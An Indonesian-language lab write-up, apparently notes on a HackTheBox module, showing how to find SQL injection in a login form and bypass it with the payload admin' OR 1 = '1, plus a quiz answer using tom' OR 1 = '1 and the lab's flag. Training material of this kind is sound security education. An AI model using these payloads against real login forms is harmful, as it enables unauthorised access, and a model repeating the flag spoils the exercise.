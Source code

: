 Katakan kita ingin mem-bypass login page menggunakan SQL Injection

![login](aset/2.1.login_panel.png)

Query untuk login yang umum kita telah ketahui adalah seperti dibawah ini

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

## SQLi Discovery
Sebelum kita mencoba untuk menembus logika pada web aplikasi dan mencoba untuk menerobos autentikasi, perta kita harus menguji apakah form login tersebut rentan terhadap SQL injection atau tidak. Untuk itu kita dapat mencoba menggunakan beberapa payloads dibawah ini.


|Payload| URL Encoded|
| :----: | :------: |
| `'`| 	`%27`|
| `"` |	`%22`|
| `#` |	`%23`|
| `;` |	`%3B`|
| `)` |	`%29`|


!!! note
    Pada kasus tertentu, kita mungking harus menggunakan versi URL encoded ketika mengirim payload. Sebagai contoh ketika kita mengirim payload langsung pada URL,HTTP GET request.


Mari kita coba kirim payload menggunakan karakter `'`, sehingga query yang akan dijalankan Sql adalah

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```


!!! quote "POC"
    === "Sent payload"
        ![initial payload](aset/2.2.payload-login.png)

    === "Respone payload"
        ![payload respone](aset/2.3.error-payload-in-band.png)

Berdasrkan hasil payload diatas dapat kita simpulkan form login tersebut rentan terhadap SQL injection.

## OR Injection
Agar berhasil masuk dengan mem-bypass login form, kita harus memaskan nilai masukan pada form yang mana harus mengeluarkan hasil True pada query. Kita bisa menggunakan statement OR. Katakan kita mamasukan payload `admin' OR 1 = '1` sehingga query nya menjadi

```sql
SELECT * FROM logins WHERE username='admin' OR 1 = '1' AND password = '';
```

Satement `#!sql AND` lebih dahulu di eksekusi, selanjutnya statement `#!sql OR`. Karena logic `1 = '1'` berniali true maka hasil dari query tersebut selalu bernilai `True` walaupun nilai password tidak kita ketahui atau kita isi dengan nilai asal.

!!! quote "POC"
    === "Sent payload"
        ![initial payload](aset/2.4.payload-or.png)

    === "Respone payload"
        ![payload respone](aset/2.5.after-payload-or.png)


## Quiz
!!! quote "question"
    Try to log in as the user 'tom'. What is the flag value shown after you successfully log in? 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"
        
        Ingat kita telah mengetahui sql query (namun pada real life kita tidak mengetahui query login atau query yang mau kita injek seperti apa) login form tersebut;

        ```sql
        SELECT * FROM logins WHERE username='' AND password = '';
        ```

        Kita bisa menggunaka pyload `tom' OR 1 = '1` yang membuat query menjadi

        ```sql
        SELECT * FROM logins WHERE username='tom' OR 1 = '1' AND password = '';
        ```

        Oke akhirnya kita mendapatkan flag 

        ```
        202a1d1a8b195d5e9a57e434cc16000c
        ```
